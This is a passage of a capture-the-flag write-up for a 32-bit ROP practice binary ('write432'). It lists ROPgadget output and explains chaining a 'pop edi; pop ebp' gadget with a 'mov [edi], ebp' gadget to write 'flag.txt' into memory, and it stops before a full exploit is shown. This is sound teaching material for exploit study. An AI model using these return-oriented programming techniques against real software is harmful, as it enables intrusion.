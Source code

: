 Okay, let's look at some of the ROP gadgets...
These are some of the relevant gadgets: 

```asm
$ ROPgadget --binary write432
0x08048472 : add esp, 0x10 ; leave ; ret
0x0804853d : add esp, 0x10 ; nop ; leave ; ret

0x080485a5 : add esp, 0xc ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x08048521 : add esp, 4 ; pop ecx ; pop ebp ; lea esp, [ecx - 4] ; ret
0x0804839a : add esp, 8 ; pop ebx ; ret
x08048479 : lea edi, [edi] ; ret
0x080484c4 : lea esi, [esi] ; ret
0x08048526 : lea esp, [ecx - 4] ; ret

0x08048475 : leave ; ret
0x08048543 : mov dword ptr [edi], ebp ; ret		== usefulGadget :)
0x08048423 : mov ebx, dword ptr [esp] ; ret
0x0804843f : nop ; mov ebx, dword ptr [esp] ; ret
0x08048525 : pop ebp ; lea esp, [ecx - 4] ; ret
0x080485ab : pop ebp ; ret
0x080485a8 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x0804839d : pop ebx ; ret
0x08048524 : pop ecx ; pop ebp ; lea esp, [ecx - 4] ; ret
0x080485aa : pop edi ; pop ebp ; ret
0x080485a9 : pop esi ; pop edi ; pop ebp ; ret
0x08048421 : push esp ; mov ebx, dword ptr [esp] ; ret

0x08048525 : pop ebp ; lea esp, [ecx - 4] ; ret
0x080485ab : pop ebp ; ret
0x080485a8 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x0804839d : pop ebx ; ret
0x08048524 : pop ecx ; pop ebp ; lea esp, [ecx - 4] ; ret
0x080485aa : pop edi ; pop ebp ; ret
0x080485a9 : pop esi ; pop edi ; pop ebp ; ret
...
Unique gadgets found: 126
```


Memory addresses we want to write to =  0x0804a018 and 0x0804a01c
What we want to write: "flag" and ".txt"

So if we use usefulGadget (mov DWORD PTR [edi], ebp; ret;), then:
\*edi = fake ebp

But, we want to control this edi value!

We can do this by popping a value off of the stack, and into edi:)

	0x080485aa : pop edi ; pop ebp ; ret

With both of these ROP gadgets, we can set up the stack so that we can pop a value into edi, and a value into ebp. We can then return the next ROP gadget (usefulGadgets), which will move the value of ebp into the address that edi points to. In other words (speaketh C?):
